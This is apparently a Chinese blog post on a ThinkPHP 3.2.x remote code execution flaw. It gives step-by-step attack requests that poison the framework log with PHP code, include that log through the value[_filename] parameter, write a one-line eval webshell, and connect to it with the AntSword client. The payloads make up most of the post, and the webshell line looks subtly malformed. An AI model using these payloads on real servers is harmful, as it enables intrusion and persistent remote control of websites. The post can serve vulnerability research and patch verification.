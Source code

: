 ```yaml
---
layout: post
title: 'ThinkPHP3.2.x RCE漏洞'
subtitle: 'ThinkPHP3.2.x RCE漏洞'
date: 2021-08-03
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: jekyll 前端开发 设计
---
```


### 漏洞概述

近日，默安玄甲实验室发现网络上出现针对ThinkPHP3.2的远程代码执行漏洞。该漏洞是在受影响的版本中，业务代码中如果模板赋值方法assign的第一个参数可控，则可导致模板文件路径变量被覆盖为携带攻击代码的文件路径，造成任意文件包含，执行任意代码。

### 漏洞攻击

> 攻击方式：

请求数据包：

	GET /index.php?m=--><?=phpinfo();?> HTTP/1.1
	Host: 127.0.0.1
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/13.1.2 Safari/605.1.15
	Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
	Accept-Language: en-GB,en;q=0.5
	Accept-Encoding: gzip, deflate
	Connection: close
	Cookie: PHPSESSID=b6r46ojgc9tvdqpg9efrao7f66;
	Upgrade-Insecure-Requests: 1

日志文件路径（这里是默认配置的log文件路径，ThinkPHP的日志路径和日期相关）：

	\Application\Runtime\Logs\Common\21_08_03.log

日志文件内容：

![](https://1024861435.github.io/assets/img/ThinkPHP3.2.x RCE漏洞1.png)

构造攻击请求：

	url/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_08_03.log

> 可以写入一句话木马

构造POC：
	url/index.php?m=Home&c=Index&a=index&C=<?=eval(@_POST[1]);?>

蚁剑连接：

	url/index.php?m=Home&c=Index&a=index&value[_filename]=./Application/Runtime/Logs/Common/21_08_03.log



